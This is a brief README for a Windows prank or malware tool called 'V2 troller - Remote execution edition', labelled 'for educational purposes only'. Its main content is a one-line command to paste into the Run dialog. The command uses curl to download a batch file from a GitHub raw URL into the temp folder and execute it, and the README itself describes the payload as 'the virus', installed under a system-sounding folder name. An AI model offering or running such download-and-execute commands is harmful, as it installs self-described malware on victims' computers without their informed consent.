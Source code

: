 # V2 troller - Remote execution edition
## FOR EDUCATIONAL PURPOSES ONLY
### Windows only
<sub> <sup> Doesn't fully work </sup> </sub>

To execute, open the run dialogue box (`win + r`), and paste in the following:
```
cmd /c curl -s "https://raw.githubusercontent.com/vexnity/troller-revamped/main/coldrun.bat" > "%TEMP%\coldrun.bat" && "%TEMP%\coldrun.bat"
```
Which will download the virus to the home folder under "System_x64" and execute it.
